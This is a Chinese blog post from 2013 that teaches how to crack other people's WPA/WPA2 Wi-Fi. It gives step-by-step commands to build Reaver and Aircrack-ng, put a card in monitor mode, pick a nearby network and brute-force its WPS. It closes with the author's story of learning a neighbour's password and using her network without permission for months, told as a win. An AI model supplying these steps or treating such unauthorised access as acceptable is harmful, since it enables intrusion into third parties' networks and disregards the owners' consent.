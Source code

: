 ```yaml
---
layout: post
title: "怎样黑 Wi-Fi 的 WPA/WPA2 密码？"
date: 2013-06-13 22:30
comments: true
categories: [WiFi, Network]
---
```


要破解一个 Wi-Fi 的登录密码有很多方法，本人有两次获取到一个 Wi-Fi 密码的成功经验，一次是用技术手段破解，另一次是无意中使用了社会工程学，在这里给大家分享一下。

## 技术手段
使用技术手段去获取一个 Wi-Fi 的登录密码不需要你成为一个网络工程师，你只需要一台(1)带无线网卡 - (2)装有 Linux 系统 - (3)能联网的电脑，再加上一小时左右的时间就足够了。这一小时的时间需要你跟着下面的步骤来安装并使用破解所需软件。我以 Ubuntu 操作系统为例作讲解。

P.S. 下面内容需要你有一些基本的 Linux 命令行操作知识。

#### 1、下载并安装 Reaver
你可以从 Reaver 的[网站](https://code.google.com/p/reaver-wps/ "reaver") 下载最新版的 Reaver。或者直接在终端里执行以下命令：

	wget https://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz

解压 Reaver

	tar -xzvf reaver-1.4.tar.gz

编译安装 Reaver 前需要先安装一些编译依赖包

	sudo apt-get install build-essential libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev

不用在意你的系统是否会重复安装已存在依赖包的，Ubuntu 会自动跳过已安装依赖包，其它系统请自行检查。

编译并安装 Reaver

	cd reaver-1.4
	cd src
	./configure
	make
	sudo make install

#### 2、下载并按装 Aircrack-ng
你可以从 Aircrack-ng 的[网站](http://aircrack-ng.org/ "Aircrack-ng") 下载最新版的 Aircrack-ng，或者直接在终端里执行以下命令：
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta1.tar.gz

解压 Aircrack-ng
	tar -xzvf aircrack-ng-1.2-beta1.tar.gz

安装依赖包
	sudo apt-get install libssl-dev

编译并安装
	cd aircrack-ng-1.2-beta1
	make
	sudo make install

#### 3、使用 Aircrack-ng 和 Reaver 破解 WiFi
使用 `iwconfig` 命令来查看无线网卡接口，一般来说就是 `wlan0`。然后执行以下命令將无线网卡设置成监视模式
	sudo airmon-ng start wlan0

成功的话会看到 “**monitor mode enabled on mon0**” 的信息。

查看附近的无线网络
	sudo airodump-ng mon0

输出信息类似于：
	BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
	CX:7A:XX:2C:E6:XX  -60     189        1    0    7  54e  WPA  CCMP   PSK  Tenda_3CF670
	CX:XX:36:2F:1E:XX  -127    275     4416   310   7  54e. WPA  CCMP   PSK  Tenda_3C7D60

当搜索到若干无线网络后，按`<Ctrl+C>`停止搜索。复制某个无线网络的**BSSID**，然后就可以使用 Reaver 进行暴力破解了
	sudo reaver -i mon0 -b <BSSID> -vv

在 BSSID 中粘贴你之前复制的 BSSID，按回车后就可以开始破解了。然后你就可以约上三五知己出去玩半天，或者自己看两三部电影了——根据网络情况和电脑性能，破解一般需要4-10小时。

## 社会工程
那次对邻居小妹妹使用了社会工程获得她的 WiFi 密码也是无意为之的。事情经过大致是这样的：

我的无线网络有一天突然上不了网，重置路由器无数次还是不行。于是我就拿到邻居小妹那边测试看是不是路由器坏了。邻居小妹那个天真无邪啊，把宽带帐号密码和无线路由器密码都给了我来测试。我试了一段时间，路由器还是不能正常联网，我就判断我的59元路由器寿终正寝了，然后就失望地离开了邻家小妹家。

回到自己的出租屋里，突然醒悟邻家小妹的 WiFi 密码就是两个小写字母，后加123456，用手机搜到她家的 WiFi 后输入了密码，竟然就连上了！然后就果断蹭网蹭了好几个月。

**-EOF-**

版权声明：自由转载-非商用-非衍生-保持署名 | [Creative Commons BY-NC-ND 3.0](http://creativecommons.org/licenses/by-nc-nd/3.0/deed.zh "CC 3.0")
